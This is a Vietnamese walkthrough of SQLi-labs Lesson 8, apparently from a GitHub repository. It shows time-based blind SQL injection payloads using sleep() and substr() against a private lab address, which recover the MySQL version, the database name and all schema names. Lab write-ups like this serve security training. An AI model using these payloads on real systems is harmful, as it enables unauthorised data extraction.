








# Những việc làm được với lesson-8
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-8 



1. Yêu cầu của nó là nhập ID và ta thử nhập nó vào. và dự đoán cấu trúc của câu truy vấn.



Tương tự bài 7 ta không thể dùng `error-base` cho bài này. Vậy nên ta phải dùng một loại khác. Trước tiên ta tìm cấu trúc câu lệnh truy vấn 

Sau những lesson trước thì thấy rằng khi ký tự đặc biệt có lỗi mà thêm `--+` cuối cùng đúng thì nó là cấu trúc của URL. Ví dụ 





Vậy cấu trúc của nó là
```
?id=1' --+
```

2. Kiểm tra version. 
- Ở bài này chúng ta không thể `select` được dữ liệu mà cũng không thể  bắn ra lỗi được. Ta sẽ phải sử dụng Time-base để có thể tìm ra được version của DB 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select @@version),1,1)='5',sleep(5),false) --+
```



Ta có câu lệnh ở đây là truy xuất và lấy 1 ký tự đầu tiên trong kết quả so sánh với 5. Và ký tự đầu tiên đúng nên nó đã dừng lại 5s



Còn ở dưới câu lệnh của nó sẽ là so sánh với ký tự khác nó sai và nó đã không dừng lại 5s. Vậy ta biết ký tự đầu tiên của phiên bản này 

```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select @@version),1,3)='5.5',sleep(5.5),false) --+
```


Tương tự như thế ta có thể tìm được các ký tự tiếp theo của phiên bản bằng cách tăng số này lên. 

3. Tương tự như thế ta có thể kiểm tra được databases. 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select database()),1,1)='s',sleep(5),false) --+
```


Tiếp tục tăng toán tử là ta có thể thấy được tên của DB

4. Show tất cả tên của các DB 
```
192.168.80.225/sqli-labs/Less-8/?id=1' and if(substr((select group_concat(SCHEMA_NAME) from information_schema.schemata),1,1)='i',sleep(5.5),false) --+
```



Ta có các DB được liệt kê cách nhau một dấu `,` tương tự các truy vấn select như bài 1 ta có thể thay thế vào select là ta có thể biết được toàn bộ DB này

